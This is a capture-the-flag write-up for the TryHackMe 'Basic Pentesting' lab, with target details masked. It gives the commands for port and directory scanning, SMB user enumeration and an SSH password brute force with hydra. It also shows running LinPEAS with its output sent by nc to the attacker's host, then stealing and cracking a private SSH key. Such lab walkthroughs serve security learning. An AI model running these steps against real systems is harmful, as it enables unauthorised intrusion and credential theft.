 <!-- TOC -->

- [Basic Pentesting](#basic-pentesting)
    - [Active Machine Information](#active-machine-information)
    - [Web App Testing and Privilege Escalation](#web-app-testing-and-privilege-escalation)
        - [Discovery and Scanning](#discovery-and-scanning)
        - [Remote Enumeration](#remote-enumeration)
        - [Exploitation](#exploitation)

<!-- /TOC -->

# Basic Pentesting

[Basic Pentesting Room](https://tryhackme.com/room/basicpentestingjt)

This is a machine that allows you to practise web app hacking and privilege escalation

---
## Active Machine Information

| Title | Target IP |
| :----: | :----: |
| Web App Test | `1*.**.*.***` |

---

## Web App Testing and Privilege Escalation

In these set of tasks you'll learn the following:

- brute forcing 
- hash cracking 
- service enumeration
- Linux Enumeration

### Discovery and Scanning

```bash
nmap -sC -sV -oN nmap 1*.**.*.***
```

> - `22/tcp` O***SSH
> - `80/tcp` A*****
> - `138/tcp` S****
> - `445/tcp` S****
> - `8009/tcp` A*****
> - `8080/tcp` A*****

View Page Source: `http://1*.**.*.***`

> `<!-- Check our dev note section if you need to know what to work on. -->`

```bash
gobuster dir -u http://1*.**.*.***/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -r -t 100
```

> `/d**********          (Status: 301) [Size: 316] [--> http://1*.**.*.***/d**********/]`


View Page Source: `http://1*.**.*.***/d**********/`

> `href="dev.txt"`

> `href="j.txt"`

Go to: `http://1*.**.*.***/d**********/dev.txt`

Go to: `http://1*.**.*.***/d**********/j.txt`

### Remote Enumeration

```bash
enum4linux 1*.**.*.*** | tee enum4linux
```

> `S-1-22-1-1000 Unix User\k** (Local User)`

> `S-1-22-1-1001 Unix User\j** (Local User)`

```bash
hydra -l j** -P /usr/share/wordlists/rockyou.txt ssh://1*.**.*.***
```

> `[22][ssh] host: 1*.**.*.***   login: j**   password: a******`

### Exploitation

Using: [LinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)

Using: `j**:a******`

```bash
scp /opt/linpeas/linpeas.sh j**@1*.**.*.***:/dev/shm
nc -lvnp 9000 | tee linpeas
ssh j**@1*.**.*.***
```

RHOST:

```bash
cd /dev/shm
chmod 700 linpeas.sh
./linpeas.sh -a -e | nc 1*.**.**.** 9000
```

> `══╣ Possible private SSH keys were found! /home/k**/.ssh/id_rsa`

```bash
cat /home/k**/.ssh/id_rsa
```

- Copy

LHOST:

```bash
cat > k**_id_rsa
```

- Paste
- `ctrl` + `d` (2x)

```bash
ssh2john k**_id_rsa > hash
john hash --wordlist=/usr/share/wordlists/rockyou.txt
```

> `b****** (k**_id_rsa)`

```bash
chmod 600 k**_id_rsa
```

Using: `k**:b******`

```bash
ssh -i k**_id_rsa k**@1*.**.*.***
```

RHOST:

```bash
cat pass.bak
```

> `h*****************************************************$$`
